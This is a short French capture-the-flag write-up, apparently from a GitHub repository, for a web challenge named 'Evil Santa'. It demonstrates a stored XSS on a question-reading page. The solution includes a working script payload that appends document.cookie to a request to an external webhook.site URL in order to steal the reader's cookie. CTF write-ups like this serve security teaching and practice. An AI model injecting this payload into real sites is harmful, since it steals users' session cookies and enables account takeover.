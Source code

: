 # Evil Santa

Auteur : [HappoSnake](https://github.com/pathibault/)

Briève description : 

Nos adminstrateurs ont créés une plateforme afin de répondre aux questions des moussaillons ! Le seul problème c'est qu'un de nos chercheurs partenaires sur la plateforme de BugBounty MoussaillonSEC nous a mentionné qu'il y a un XSS possible sur la page de lecture des questions.

Seriez-vous en mesure de demontrer l'impacte de ce XSS en volant le cookie du lecteur ?


# Sources
- https://finctf.ettic.net/challenges#Evil%20Santa-42
- https://webhook.site/

# Solution
## 1. Pour commencer nous avons besoin d'un serveur pour recevoir la redirection de l'utilisateur.

<img src=./webhook_site.png>

<br/>

## 2. Dans la question inscrire le script xxs :

```
<script>var i=new Image;i.src="	https://webhook.site/f57227d7-da28-4430-b3d9-f282a1d8b636/?"+document.cookie;</script>
```
<img src=./formulaire.png>

<br/>

## 3. Récupérer le cookie contenant le flag sur le site webhook.site

<img src=./flag.png>